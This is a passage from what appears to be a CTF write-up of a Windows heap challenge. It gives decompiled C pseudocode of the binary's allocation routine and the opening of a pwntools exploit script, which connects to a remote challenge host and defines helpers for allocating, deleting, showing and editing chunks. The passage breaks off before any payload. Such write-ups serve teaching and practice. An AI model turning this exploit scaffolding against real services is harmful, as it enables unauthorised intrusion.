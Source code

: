 ```c
        global_idx += 3;
        goto LABEL_13;
      }
      global_idx += 4;
      v5 += 8;
      if ( global_idx >= 0x10 )
        goto LABEL_13;
    }
    ++global_idx;
LABEL_13:
    if ( global_idx == 16 )
      break;
LABEL_14:
    v3("size >");
    Scanf("%ud", &v19);
    getchar();
    if ( v19 > 0x90 )
      break;
    v6 = (v19 >> 4) + 1;
    chunk_addr = HeapAlloc(hHeap, 1u, v6);
    v8 = dword_40338C;
    *(_DWORD *)(dword_40338C + 8 * global_idx) = (unsigned int)puts | v6;
    *(_DWORD *)(v8 + 8 * global_idx + 4) = chunk_addr;
  }
LABEL_29:
  v3("Error!");
  exit(-1);
  return result;
}
```

### exp.py

```py
# encoding=utf-8
from pwn import *

context.arch = "i386"
context.log_level = "debug"

p = remote('10.210.108.240', 10031)
#p = remote('node3.buuoj.cn', 28789)

def cmd(choice):
    p.sendlineafter("option >",str(choice))

def Alloc(sz):
    cmd(1)
    p.sendlineafter("size >",str(sz))

def Delete(idx):
    cmd(2)
    p.sendlineafter("index >",str(idx))

def Show(idx):
    cmd(3)
    p.sendlineafter("index >\r\n",str(idx))

def Edit(idx,content):
    cmd(4)
    p.sendlineafter("index >",str(idx))
    p.sendlineafter("content  >",content)

```